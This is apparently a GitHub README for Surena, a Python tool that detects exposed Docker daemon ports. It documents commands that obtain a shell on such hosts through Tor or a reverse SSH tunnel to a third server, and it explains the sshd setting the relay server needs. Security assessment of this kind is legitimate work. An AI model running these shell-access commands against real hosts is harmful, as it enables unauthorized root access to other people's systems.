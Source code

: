 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To understand more about how Surena works and how to use these methods, please refer to our Medium article: [article](https://medium.com/@norouzzadegan/69628c4be503).

## Installation

Surena can be installed from PyPI by running:

```bash
pip install surena
```

Once installed, Surena can be run using the following commands in your terminal. To view available commands and options, use:

```bash
surena --help
```

## Using
Surena offers two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command checks if the Docker daemon's port is accessible from the network. To understand its options, run:

```bash
surena is-docker-host --help
```

For example, execute the command with these options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that in the remote SSH server or in the `THIRD_SERVER_IP`, which has already been mentioned, the "GatewayPorts" configuration in the `sshd_config` file located at `/etc/ssh/sshd_config` should be changed from `GatewayPorts no` to either `GatewayPorts clientspecified` or `GatewayPorts yes` to enable it.

Additionally, ensure to replace `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` with the appropriate values.


## Warning
Surena is intended for lab use and to help you understand whether your Docker daemon is secure or insecure. **PLEASE DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.**

## Donate
If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be grateful if you could consider supporting us by donating Dogecoin. Our Dogecoin wallet address for donations is: `DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA`